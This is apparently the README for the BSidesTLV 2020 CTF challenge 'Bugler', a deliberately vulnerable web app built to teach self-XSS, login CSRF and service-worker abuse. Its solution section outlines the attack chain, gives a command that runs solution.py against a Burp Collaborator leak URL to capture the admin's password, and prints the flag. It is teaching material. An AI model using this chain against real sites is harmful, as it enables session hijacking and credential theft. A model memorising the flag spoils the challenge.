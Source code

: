 # Bugler
[BSidesTLV CTF 2020] Bugler Challenge

![Challenge Description](resources/img/description.png)
_________________________________________________________

### Challenge Storyline
The admin of bugler is not new to Phishing attacks,  
He want to know that he's website customers are safe from these kind of attacks.  
So don't be selfish share phishing sites of malicious users, the admin will appreciate your service.  

### Challenge Design
The challenge components are:  
* challenge (Backend + Forntend Server)  
* database (MongoDB for registrations)
* queue (rabbitmq queue between the bot and the challenge)
* bot (puppeteer chromium based headless browser with a queue that get messages from the challenge)

### Challenge Scaled Designed
* create as much bot instances as you need
* you can also create more challenge isntances
* creat network file storage (nfs) and connect it to the challenge instances at /app/public/upload.
* create a load balancer and let it balance between the challenge instances. (no sticky cookie needed if you are not duplicating the database, queue and nfs).

![BSidesTLV CTF 2020 - Challenge Diagram](resources/img/diagram.png)

### Challenge Purpose
* Teach people that self XSS is could be more dangerous then they thought  
* Let people experience with Service Workers  
* Let people experience with login CSRF  

### Challenge Solution
1) Deploy the app: docker-compose up --build -d
2) Add "127.0.0.1 bugler.ctf.bsidestlv.com" to the hosts file (add other ip address if its remote)  
3) Execute solution.py (tested with python3)
   ```bash
   cd solution
   pip install requirements.txt
   python solution.py -l {LEAK_URL}
   ```
   * LEAK_URL - Burp Collaborator / RequestBin / Other URL
   * Example: python solution.py -l https://r6yhg580xmz4aawm50mqprae95fw3l.burpcollaborator.net/
4) Decode the argument from the query parameter password and you have the flag: **BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}**

### Challenge Solution Explanation
The exploit create a new user (if not exist, if exist it will login),   
Update the profile (which is vulnerable to self XSS): 
* upload service_worker.js file as the **avatar**  
* set csrf url as the **website**
* set address/city as the XSS payload which installs the service worker   

The user need to understand that he must use CSRF in order to get the admin execute the XSS payload,    
The CSRF attack is possible from the public profile of the user (by clicking on the profile picture) and reporting website as a phishing site....
The user will see the response header **"Service-Worker-Allowed: /"** and he will know he must use service workers in order to get the admin access (the admin wasn't login before the attack - short session cookie).    
With the service workers he will get all the admin traffic and the flag will be in the admin password.  
 
[![Bugler - Deployment & Solution](http://img.youtube.com/vi/p3EMyP6dguE/0.jpg)](http://www.youtube.com/watch?v=p3EMyP6dguE)
  
